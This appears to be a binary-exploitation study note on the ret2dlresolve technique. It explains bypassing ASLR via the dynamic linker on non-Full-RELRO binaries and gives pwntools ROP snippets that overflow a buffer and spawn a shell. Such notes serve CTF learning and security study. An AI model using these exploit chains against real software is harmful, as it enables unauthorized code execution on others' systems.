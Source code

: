 ```yaml
---
description: >-
  A way to exploit buffer overflows using ROP when not many gadgets are
  available, and Full RELRO is disabled
---
```


# ret2dlresolve

Ret2dlresolve is a technique that can be used to trick the binary into resolving a specific function, such as `system()`, into the PLT (Procedure Linkage Table). By doing this, you can use the PLT function as if it was an original component of the binary. This bypasses ASLR and does not require any leaks of the libc address.

The attack is only possible when you can overwrite GOT entries, making it impossible on Full RELRO. On both No RELRO and Partial RELRO this attack is possible however:

![](<../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png>)

For a more detailed explanation see:

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve" %}
Detailed analysis and information about ret2dlresolve from ir0nstone's notes
{% endembed %}

## PwnTools

PwnTools contains a [`ret2dlresolve`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) function that can generate payloads for this attack automatically.&#x20;

### `read()`

```python
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.read(0, dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

### `gets()`

```python
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.gets(dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```
